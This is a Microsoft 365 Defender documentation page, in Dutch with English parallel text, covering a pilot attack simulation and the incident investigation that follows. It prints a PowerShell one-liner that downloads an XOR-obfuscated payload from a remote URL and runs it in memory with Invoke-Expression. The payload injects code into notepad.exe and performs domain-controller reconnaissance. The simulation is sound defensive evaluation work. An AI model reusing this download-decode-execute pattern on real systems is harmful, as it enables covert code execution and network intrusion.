


# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="c8ebe-104">Uw Microsoft 365 Defender-aanvalssimulaties uitvoeren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="c8ebe-105">[](mtp-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-105">[](mtp-pilot-plan.md)</span></span><br/>[<span data-ttu-id="c8ebe-106">Planning</span><span class="sxs-lookup"><span data-stu-id="c8ebe-106">Planning</span></span>](mtp-pilot-plan.md)|<span data-ttu-id="c8ebe-107">[](prepare-mtpeval.md)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-107">[](prepare-mtpeval.md)</span></span><br/>[<span data-ttu-id="c8ebe-108">Voorbereiding</span><span class="sxs-lookup"><span data-stu-id="c8ebe-108">Preparation</span></span>](prepare-mtpeval.md)|<br/><span data-ttu-id="c8ebe-110">Een aanval simuleren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-110">Simulate attack</span></span>|<span data-ttu-id="c8ebe-111">[](mtp-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-111">[](mtp-pilot-close.md)</span></span><br/>[<span data-ttu-id="c8ebe-112">Sluiten en samenvatten</span><span class="sxs-lookup"><span data-stu-id="c8ebe-112">Close and summarize</span></span>](mtp-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="c8ebe-113">*U bent er!*</span><span class="sxs-lookup"><span data-stu-id="c8ebe-113">*You are here!*</span></span>||

<span data-ttu-id="c8ebe-114">U zit momenteel in de fase van de aanvalssimulatie.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="c8ebe-115">Nadat u de testomgeving hebt voorbereid, is het tijd om de microsoft 365 Defender-incidentbeheer en geautomatiseerde onderzoeks- en herstelmogelijkheden te testen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="c8ebe-116">We helpen u bij het simuleren van een geavanceerde aanval die gebruik maakt van geavanceerde technieken om te verbergen voor detectie.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="c8ebe-117">Met de aanval worden geopende SMB-sessies (Server Message Block) op domeincontrollers opgeslagen en worden recente IP-adressen van apparaten van gebruikers opgehaald.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="c8ebe-118">Deze categorie aanvallen bevat meestal geen bestanden die zijn gedropt op het apparaat van het slachtoffer, maar alleen in het geheugen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="c8ebe-119">Ze 'leven van het land' door bestaande systeem- en beheerhulpmiddelen te gebruiken en hun code in systeemprocessen te injecteren om hun uitvoering te verbergen, met dergelijk gedrag kunnen ze detectie omzeilen en blijven ze op het apparaat.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="c8ebe-120">In deze simulatie begint ons voorbeeldscenario met een PowerShell-script.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="c8ebe-121">Een gebruiker kan worden misleid bij het uitvoeren van een script.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="c8ebe-122">Of het script kan worden uitgevoerd vanaf een externe verbinding met een andere computer vanaf een eerder geïnfecteerd apparaat, de aanvaller die lateraal probeert te bewegen in het netwerk.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="c8ebe-123">Detectie van deze scripts kan lastig zijn omdat beheerders ook vaak scripts op afstand uitvoeren om verschillende beheeractiviteiten uit te voeren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="c8ebe-125">Tijdens de simulatie injecteert de aanval shellcode in een schijnbaar onschuldig proces.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="c8ebe-126">Voor het scenario is het gebruik van notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="c8ebe-127">We hebben dit proces gekozen voor de simulatie, maar aanvallers zouden zich waarschijnlijk richten op een langlopende systeemprocedure, zoals svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="c8ebe-128">De shellcode gaat vervolgens verder met het contact opnemen met de C2-server (Command-and-Control) van de aanvaller om instructies te ontvangen over hoe u verder kunt gaan.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="c8ebe-129">Met het script wordt geprobeerd verkenningsquery's uit te voeren op de domeincontroller (DC).</span><span class="sxs-lookup"><span data-stu-id="c8ebe-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="c8ebe-130">Met Verkenning kan een aanvaller informatie krijgen over recente aanmeldingsgegevens van gebruikers.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="c8ebe-131">Zodra aanvallers deze informatie hebben, kunnen ze lateraal in het netwerk naar een specifiek gevoelig account gaan</span><span class="sxs-lookup"><span data-stu-id="c8ebe-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="c8ebe-132">Voor optimale resultaten volgt u de instructies voor de aanvalssimulatie zo goed mogelijk.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="c8ebe-133">Vereisten voor de omgeving van de simulatie</span><span class="sxs-lookup"><span data-stu-id="c8ebe-133">Simulation environment requirements</span></span>

<span data-ttu-id="c8ebe-134">Aangezien u de testomgeving al hebt geconfigureerd tijdens de voorbereidingsfase, moet u ervoor zorgen dat u twee apparaten hebt voor dit scenario: een testapparaat en een domeincontroller.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="c8ebe-135">Controleer of uw tenant [Microsoft 365 Defender heeft ingeschakeld.](./mtp-enable.md#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-135">Verify your tenant has [enabled Microsoft 365 Defender](./mtp-enable.md#starting-the-service).</span></span>

2. <span data-ttu-id="c8ebe-136">Controleer de configuratie van uw testdomeincontroller:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="c8ebe-137">Apparaat wordt uitgevoerd met Windows Server 2008 R2 of een nieuwere versie.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="c8ebe-138">De testdomeincontroller naar [Microsoft Defender voor identiteit en](/azure/security-center/security-center-wdatp) extern beheer [inschakelen.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="c8ebe-139">Controleer of [Microsoft Defender voor identiteits- en Microsoft Cloud App-beveiligingsintegratie](/cloud-app-security/mdi-integration) is ingeschakeld.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="c8ebe-140">Er wordt een testgebruiker gemaakt op uw domein. Er zijn geen beheerdersmachtigingen nodig.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="c8ebe-141">Testapparaatconfiguratie controleren:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="c8ebe-142">Apparaat wordt uitgevoerd met Windows 10 versie 1903 of een nieuwere versie.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="c8ebe-143">Testapparaat is verbonden met het testdomein.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="c8ebe-144">[Schakel Windows Defender Antivirus in.](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="c8ebe-145">Zie dit [probleemoplossingsonderwerp](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)als u problemen hebt met het inschakelen van Windows Defender Antivirus.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="c8ebe-146">Controleer of het testapparaat is [onboarded bij Microsoft Defender voor Eindpunt)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="c8ebe-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="c8ebe-147">Als u een bestaande tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatgroep voor het testapparaat en drukt u deze op het hoogste niveau in configuratie UX.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="c8ebe-148">De scenariosimulatie voor aanvallen uitvoeren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="c8ebe-149">De scenariosimulatie van het aanvalsscenario uitvoeren:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="c8ebe-150">Meld u aan bij het testapparaat met het testgebruikersaccount.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="c8ebe-151">Open een Windows PowerShell-venster op het testapparaat.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="c8ebe-152">Kopieer het volgende simulatiescript:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="c8ebe-153">Als u dit document opent in een webbrowser, kunt u problemen ondervinden bij het kopiëren van de volledige tekst zonder bepaalde tekens te verliezen of extra regel-onderbrekingen in te leiden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="c8ebe-154">Download dit document en open het in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="c8ebe-155">Plak en voer het gekopieerde script bij de prompt uit.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-156">Als u PowerShell gebruikt met RDP (Remote Desktop Protocol), gebruikt u de opdracht Klembordtekst typen in de RDP-client omdat de sneltoets **Ctrl-V** of de methode voor het plakken met de rechtermuisknop mogelijk niet werkt.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="c8ebe-157">Recente versies van PowerShell accepteren deze methode soms ook niet, mogelijk moet u eerst kopiëren naar Kladblok in het geheugen, deze kopiëren in de virtuele computer en deze vervolgens in PowerShell plakken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="c8ebe-158">Een paar seconden later <i> wordtnotepad.exe</i> geopend.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="c8ebe-159">Er wordt een gesimuleerde aanvalscode in de notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="c8ebe-160">Houd het automatisch gegenereerde kladblok-exemplaar open om het volledige scenario te kunnen ervaren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="c8ebe-161">De gesimuleerde aanvalscode probeert te communiceren met een extern IP-adres (de C2-server simuleren) en probeert vervolgens via SMB een verkenningspoging te doen tegen de domeincontroller.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="c8ebe-162">Wanneer dit script is voltooid, wordt er een bericht weergegeven op de PowerShell-console.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="c8ebe-163">Als u de functie Automatisch incident en antwoord in actie wilt zien, houdt u het notepad.exe geopend.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="c8ebe-164">U ziet Automatisch incident en antwoord stoppen met het kladblokproces.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="c8ebe-165">Een incident onderzoeken</span><span class="sxs-lookup"><span data-stu-id="c8ebe-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-166">Voordat we u door deze simulatie leiden, bekijkt u de volgende video om te zien hoe incidentbeheer u helpt de gerelateerde waarschuwingen samen te delen als onderdeel van het onderzoeksproces, waar u deze kunt vinden in de portal en hoe het u kan helpen bij uw beveiligingsbewerkingen:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="c8ebe-167">Als u overschakelt naar het standpunt van de soc-analist, kunt u nu beginnen met het onderzoeken van de aanval in de microsoft 365-beveiligingscentrumportal.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="c8ebe-168">Open de [portalwachtrij van het Microsoft 365-beveiligingscentrum](https://security.microsoft.com/incidents) vanaf elk apparaat.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="c8ebe-169">**Navigeer naar Incidenten** in het menu.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="c8ebe-171">Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de incidentwachtrij.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="c8ebe-173">De aanval als één incident onderzoeken</span><span class="sxs-lookup"><span data-stu-id="c8ebe-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="c8ebe-174">Microsoft 365 Defender correleert analyses en verzamelt alle gerelateerde waarschuwingen en onderzoeken van verschillende producten in één incidententiteit.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="c8ebe-175">Hierdoor wordt in Microsoft 365 Defender een breder aanvalsverhaal belicht, zodat de SOC-analist complexe bedreigingen kan begrijpen en beantwoorden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="c8ebe-176">De waarschuwingen die tijdens deze simulatie worden gegenereerd, worden gekoppeld aan dezelfde bedreiging en worden als gevolg hiervan automatisch samengevoegd als één incident.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="c8ebe-177">Het incident weergeven:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-177">To view the incident:</span></span>

1. <span data-ttu-id="c8ebe-178">Ga naar de **wachtrij Incidenten.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="c8ebe-180">Selecteer het nieuwste item door op de cirkel links van de naam van het incident te klikken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="c8ebe-181">Een zijpaneel bevat aanvullende informatie over het incident, inclusief alle gerelateerde waarschuwingen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="c8ebe-182">Elk incident heeft een unieke naam die het beschrijft op basis van de kenmerken van de waarschuwingen die het bevat.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="c8ebe-184">De waarschuwingen in het dashboard kunnen worden gefilterd op basis van servicebronnen: Microsoft Defender voor identiteit, Microsoft Cloud App-beveiliging, Microsoft Defender voor Eindpunt, Microsoft 365 Defender en Microsoft Defender voor Office 365.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="c8ebe-185">Selecteer **De pagina Incident openen** voor meer informatie over het incident.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="c8ebe-186">Op de **pagina Incident** ziet u alle waarschuwingen en informatie over het incident.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="c8ebe-187">De informatie omvat de entiteiten en activa die betrokken zijn bij de waarschuwing, de detectiebron van de waarschuwingen (Microsoft Defender voor identiteit, EDR) en de reden waarom ze aan elkaar zijn gekoppeld.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="c8ebe-188">Als u de lijst met incidentenwaarschuwingen bekijkt, wordt de voortgang van de aanval weergegeven.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="c8ebe-189">In deze weergave kunt u de afzonderlijke waarschuwingen bekijken en onderzoeken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="c8ebe-190">U kunt ook in **het rechtermenu** op Incident beheren klikken om het incident te taggen, aan uzelf toe te wijzen en opmerkingen toe te voegen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="c8ebe-193">Gegenereerde waarschuwingen controleren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-193">Review generated alerts</span></span>

<span data-ttu-id="c8ebe-194">Laten we eens kijken naar enkele waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-195">We lopen door slechts een paar waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="c8ebe-196">Afhankelijk van de versie van Windows en de Microsoft 365 Defender-producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen die in een iets andere volgorde worden weergegeven.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="c8ebe-198">Waarschuwing: Verdachte procesinjectie waargenomen (Bron: Microsoft Defender voor Endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="c8ebe-199">Geavanceerde aanvallers gebruiken geavanceerde en verborgen methoden om in het geheugen te blijven en zich te verbergen voor detectiehulpmiddelen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="c8ebe-200">Een veelgebruikte techniek is om te werken vanuit een vertrouwd systeemproces in plaats van een schadelijke uitvoerbare, waardoor het moeilijk is voor detectiehulpmiddelen en beveiligingsbewerkingen om de schadelijke code te herkennen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="c8ebe-201">Om de SOC-analisten in staat te stellen deze geavanceerde aanvallen op te vangen, bieden diep geheugen sensoren in Microsoft Defender voor Eindpunt onze cloudservice een ongeëvenaarde zichtbaarheid in een verscheidenheid aan technieken voor codeinjectie voor meerdere processen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="c8ebe-202">In de volgende afbeelding ziet u hoe Defender voor Eindpunt heeft gedetecteerd en gewaarschuwd bij de poging om code te <i>notepad.exe. </i></span><span class="sxs-lookup"><span data-stu-id="c8ebe-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="c8ebe-204">Waarschuwing: Onverwacht gedrag waargenomen door een proces zonder opdrachtregelargumenten (Bron: Microsoft Defender voor Eindpunt EDR)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="c8ebe-205">Microsoft Defender voor eindpuntdetecties zijn vaak gericht op het meest voorkomende kenmerk van een aanvalstechniek.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="c8ebe-206">Deze methode zorgt voor duurzaamheid en verhoogt de lat voor aanvallers om over te schakelen naar nieuwere tactieken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="c8ebe-207">We gebruiken grootschalige leeralgoritmen om het normale gedrag van gangbare processen binnen een organisatie en wereldwijd vast te stellen en te kijken wanneer deze processen afwijkende gedragingen vertonen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="c8ebe-208">Deze afwijkende gedragingen geven vaak aan dat overbodige code is geïntroduceerd en worden uitgevoerd in een anders vertrouwd proces.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="c8ebe-209">In dit scenario vertoont <i>notepad.exe</i> abnormaal gedrag, waarbij communicatie met een externe locatie betrokken is.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="c8ebe-210">Dit resultaat is onafhankelijk van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-211">Omdat deze waarschuwing is gebaseerd op machine learning-modellen waarvoor extra back-endverwerking nodig is, kan het enige tijd duren voordat u deze waarschuwing in de portal ziet.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="c8ebe-212">De waarschuwingsdetails bevatten het externe IP-adres, een indicator die u als draaipunt kunt gebruiken om het onderzoek uit te breiden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="c8ebe-213">Selecteer het IP-adres in de waarschuwingsprocesstructuur om de pagina MET IP-adresgegevens weer te geven.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


